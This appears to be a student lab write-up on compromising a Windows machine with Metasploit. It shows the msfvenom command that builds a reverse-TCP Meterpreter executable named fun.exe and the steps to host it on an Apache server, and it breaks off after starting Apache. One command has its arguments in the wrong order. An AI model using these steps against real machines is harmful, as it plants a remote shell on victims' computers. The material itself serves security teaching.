 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:

Find the attackers ip address using ifconfig
## OUTPUT:
<img width="598" height="362" alt="image" src="https://github.com/user-attachments/assets/58a7f659-61c5-4761-ba93-c86b6b1c20d7" />



Create a malicious executable file fun.exe using msfvenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT:

<img width="720" height="116" alt="image" src="https://github.com/user-attachments/assets/a23b6c03-7adb-48ea-902b-435802c3b754" />

copy the fun.exe into the apache /var/www/html folder
## OUTPUT:
<img width="287" height="43" alt="image" src="https://github.com/user-attachments/assets/6e81c1d9-eb63-4b3e-8c04-22ac8fcae332" />


Start apache server
sudo systemctl apache2 start
## OUTPUT:
